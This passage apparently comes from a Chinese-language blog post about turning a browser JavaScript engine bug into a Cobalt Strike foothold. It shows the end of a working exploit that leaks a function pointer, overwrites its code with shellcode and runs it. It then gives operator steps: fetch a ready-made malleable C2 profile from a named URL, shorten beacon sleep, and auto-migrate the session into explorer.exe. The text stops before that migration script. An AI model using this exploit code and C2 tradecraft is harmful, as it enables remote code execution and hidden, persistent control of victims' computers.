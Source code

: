 ```python

    var oob = oobAccess();



    var func_ptr = oob.leakPtr(target_function);

    print('[*] target_function at 0x' + func_ptr.toString(16));



    var kCodeInsOffset = 0x1b;



    var code_addr = oob.read32(func_ptr + kCodeInsOffset);

    print('[*] code_addr at 0x' + code_addr.toString(16));



    oob.setBytes(code_addr, shellcode);



    target_function(0);

}



try{

    print("start running");

    trigger();

}catch(e){

    print(e);

}

</script>
```
但是经过测试发现该方法点击后会话极易掉线，并且关闭浏览器会话便消失，这里提供另一位大佬的方法，加载自定义 malleable C2 配置文件，将sleep时间修改为1秒，然后加载一个直接将会话迁移到explorer.exe中的cna脚本，操作如下：
下载已经写好的配置文件（大佬已经写好的）：https://www.ailiqun.xyz/images/jquery-c2.4.0.profile
将该配置文件放在cs服务端中，启用的时候在末尾加上这个配置文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210420203129741.png)
启用后加载一个 Cobalt Strike automigrate 自动迁移进程的插件，将下面的代码保存为cna加载到客户端的cs中
